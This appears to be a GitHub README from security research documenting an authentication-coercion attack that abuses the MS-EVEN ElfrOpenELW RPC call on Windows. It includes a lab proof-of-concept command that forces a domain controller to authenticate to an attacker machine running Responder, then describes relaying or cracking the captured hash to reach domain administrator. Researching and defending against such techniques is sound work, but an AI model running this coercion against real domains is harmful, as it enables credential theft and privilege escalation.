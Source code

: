 # MS-EVEN - Remote call to ElfrOpenELW (opnum 7)

## Summary

+ **Protocol**: [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)

+ **Protocol UUID**: 82273fdc-e32a-18c3-3f78-827929dc23ea

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\eventlog`

+ **Function name**: [`ElfrOpenELW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/ea6c92d3-05d1-4194-b5a0-686847cd8574)

+ **Function operation number**: `7`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\eventlog` and bind to the desired [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol (with uuid `82273fdc-e32a-18c3-3f78-827929dc23ea` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\eventlog` This pipe is connected to the protocol [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) and allows to call RPC functions of this protocol. We will then call the remote [`ElfrOpenELW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/ea6c92d3-05d1-4194-b5a0-686847cd8574) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ElfrOpenELW('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS ElfrOpenELW(
   [in] EVENTLOG_HANDLE_W UNCServerName,
   [in] PRPC_UNICODE_STRING ModuleName,
   [in] PRPC_UNICODE_STRING RegModuleName,
   [in] unsigned long MajorVersion,
   [in] unsigned long MinorVersion,
   [out] IELF_HANDLE* LogHandle
 );
```

## References

+ Documentation of protocol [MS-EVEN]: EventLog Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f

+ Documentation of function `ElfrOpenELW`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/ea6c92d3-05d1-4194-b5a0-686847cd8574
